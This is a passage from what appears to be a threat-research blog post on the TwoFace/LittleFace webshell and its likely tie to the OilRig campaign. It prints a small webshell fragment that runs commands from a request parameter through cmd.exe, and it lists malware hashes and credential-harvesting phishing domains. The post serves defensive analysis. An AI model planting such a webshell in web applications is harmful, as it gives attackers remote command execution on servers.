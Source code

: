 


1234567891011

void Page_Load(object sender, EventArgs e){    try    {        string cmd = Request["c"];        r(cmd);    }    catch (Exception)    {    }}





The LittleFace shell will execute the command (‘r’ function seen in code block above) by creating a “cmd.exe” process and writing the desired command to the process’ standard input. The result of the command is provided back to the actor directly within the HTTP response to the POST request.
OilRig Link
While examining each of the tools that were found on the compromised sites, one specific sample of Mimikatz showed evidence of a potential relationship with the OilRig campaign.
As detailed in our April 2017 blog "OilRig Actors Provide a Glimpse into Development and Testing Efforts", we were able to track an entity that appeared to be testing and iterating through different variations and versions of tools associated with the OilRig campaign. This same entity was found submitting a specific sample of Mimikatz a day after testing multiple Helminth samples. We observed actors uploading this specific sample of Mimikatz to the TwoFace webshell hosted at the Saudi education institution mentioned earlier in this blog, leading us to believe that there is a likely relationship between the OilRig campaign and the TwoFace campaign. The extent of this relationship is unknown at this time. While we cannot be absolutely certain that this is the same adversary in both attacks, we are able to ascertain that this specific entity does have access to OilRig tools and also has access to a very specific sample of Mimikatz only found in this attack infrastructure.
Expanding on the possible relationship between TwoFace and OilRig, examining the tactical overlap of both attacks may also provide additional data points to link them. Specifically, significant targeting overlap exists with both attacks, with multiple organizations in multiple nation states throughout the Middle East region being targeted either as a final target or added as part of the attack infrastructure. One possible scenario of how TwoFace and OilRig are used in conjunction could be where the adversary uses the ClaySlide documents to deliver Helminth, which is then used as an initial landing point or beachhead into the target’s network. From there, the adversary may use the initial ingress point and its corresponding permissions to install the TwoFace webshell on accessible systems. Additional post-exploitation tools such as the ones we discovered may then have been uploaded to the now compromised systems via the TwoFace file upload function.
Conclusion
As we have continued our research into operations in the Middle East, we are beginning to uncover more and more overlaps between the various adversary groups and campaigns outlined by us and others in the public domain. In this incident, we were able to follow a trail starting from a single webshell to a bevy of compromised sites, credential harvesters, post-exploitation tools, and even an operational overlap with what we originally thought was an unrelated attack campaign. The Middle East region has proven to be a hotbed of threat activity in recent times, with continued acceleration of pacing as well as development in the tactics and techniques used. There is no indication that this type of threat activity will cease, but with continued discovery of the adversary’s playbooks, implementation of strong security policies, and effective deployment of technology, we can make it far less worthwhile for the adversary to execute their attacks.
Post-exploitation Tools SHA256 Hashes
28a0db561ff5a525bc2696cf98d96f443f528afe63c5097c5e0ccad071fcb8c2
744e0ce108598aaa8994f211e00769ac8a3f05324d3f07f7705277b9af7a7497
caf5f9791ab3049811e16971b4673ec6d4baf35ffaadd7486ea4c5e318d10696
6ae32cd3b5a8a1dbb5464372ded370f31802fd1f5031795b43d662c64fc5b301
3b08535b4add194f5661e1131c8e81af373ca322cf669674cf1272095e5cab95
450ebd66ba67bb46bf18d122823ff07ef4a7b11afe63b6f269aec9236a1790cd
5b7eb534a852c187eee7eb729056082eec7a028819191fc2bc3ba4d1127fbd12
6e623311768f1c419b3f755248a3b3d4bf80d26606a74ed4cfd25547a67734c7
497e6965120a7ca6644da9b8291c65901e78d302139d221fcf0a3ec6c5cf9de3
d3b03c0da854102802c21c0fa8736910ea039bbe93a140c09689fc802435ea31
5ead94f12c307438e6475e49f02bedaee0cd09ce6cebb7939f9a2830f913212c
bb9b4e088eb99100156f56bbd35a21ff7e96981ffe78ca9132781e9b3f064f44
Credential Harvesting Domains
owa-insss-org-ill-owa-authen[.]ml
webmaiil-tau-ac-il[.]ml
mail-macroadvisorypartners[.]ml
webmail-tidhar-co-il[.]ml
my-mailcoil[.]ml
